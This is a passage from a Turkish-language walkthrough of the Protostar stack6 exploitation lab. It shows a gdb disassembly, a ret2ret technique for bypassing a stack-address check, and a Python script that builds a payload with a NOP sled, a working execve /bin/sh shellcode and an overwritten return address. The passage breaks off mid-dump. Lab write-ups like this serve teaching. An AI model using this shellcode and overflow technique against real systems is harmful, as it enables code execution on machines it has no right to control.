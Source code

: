 ```bash
0x080484b2 <getpath+46>:	mov    %eax,-0xc(%ebp)
0x080484b5 <getpath+49>:	mov    -0xc(%ebp),%eax
0x080484b8 <getpath+52>:	and    $0xbf000000,%eax
0x080484bd <getpath+57>:	cmp    $0xbf000000,%eax
0x080484c2 <getpath+62>:	jne    0x80484e4 <getpath+96>
0x080484c4 <getpath+64>:	mov    $0x80485e4,%eax
0x080484c9 <getpath+69>:	mov    -0xc(%ebp),%edx
0x080484cc <getpath+72>:	mov    %edx,0x4(%esp)
0x080484d0 <getpath+76>:	mov    %eax,(%esp)
0x080484d3 <getpath+79>:	call   0x80483c0 <printf@plt>
0x080484d8 <getpath+84>:	movl   $0x1,(%esp)
0x080484df <getpath+91>:	call   0x80483a0 <_exit@plt>
0x080484e4 <getpath+96>:	mov    $0x80485f0,%eax
0x080484e9 <getpath+101>:	lea    -0x4c(%ebp),%edx
0x080484ec <getpath+104>:	mov    %edx,0x4(%esp)
0x080484f0 <getpath+108>:	mov    %eax,(%esp)
0x080484f3 <getpath+111>:	call   0x80483c0 <printf@plt>
0x080484f8 <getpath+116>:	leave  
0x080484f9 <getpath+117>:	ret    
End of assembler dump.
``` 
Burada son satırda bulunan `ret` komutunun adresine bakarsanız bf ile başlamıyor. Eğer biz return adresimizi bu komutun adresi ile ezersek ve arkasına da shellcode adresimizi koyarsak ne olur? Fonksiyonan dönmeye çalışılırken `ret` komutunun adresine dönmüş oluruz ve o komut tekrar çalışmış olur. Tekrar çalıştığında da stackin en üstündeki değeri yani bizim eklemiş olduğumzu shellcode adresini çekip oradan executiona devam eder ve ksıtlamaya takılmaz çünkü biz o kısıtlamayı ilk returnde atlatmıştık.  <br>
Bizim stack layoutumuz şuan dönüştü o zaman:
```
36*NOP + shellcode(28 byte) + 12*A + 4*B + return_address_of_ret_instruction + shellcode_address
```
Bunu python ile oluşturmaya çalışalım:
```python
nops = '\x90'*36
shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"
junk = "A"*12 + "B"*4
return_addr_of_ret = "\xf9\x84\x04\x08" #0x080484f9
shellcode_addr = "C"*4

print nops + shellcode + junk + return_addr_of_ret + shellcode_addr
```
Şimdi shellcode'a zıplayacağımzı adresi bulmamız lazım. Gdb ile tekrar bakalım:
```bash
(gdb) set disassembly-flavor intel
(gdb) break main
Breakpoint 1 at 0x8048500: file stack6/stack6.c, line 27.
(gdb) r
Starting program: /opt/protostar/bin/stack6 

Breakpoint 1, main (argc=1, argv=0xbffff714) at stack6/stack6.c:27
27	stack6/stack6.c: No such file or directory.
	in stack6/stack6.c
(gdb) disas getpath 
Dump of assembler code for function getpath:
0x08048484 <getpath+0>:	push   ebp
0x08048485 <getpath+1>:	mov    ebp,esp
0x08048487 <getpath+3>:	sub    esp,0x68
0x0804848a <getpath+6>:	mov    eax,0x80485d0
0x0804848f <getpath+11>:	mov    DWORD PTR [esp],eax
0x08048492 <getpath+14>:	call   0x80483c0 <printf@plt>
0x08048497 <getpath+19>:	mov    eax,ds:0x8049720
0x0804849c <getpath+24>:	mov    DWORD PTR [esp],eax
0x0804849f <getpath+27>:	call   0x80483b0 <fflush@plt>
```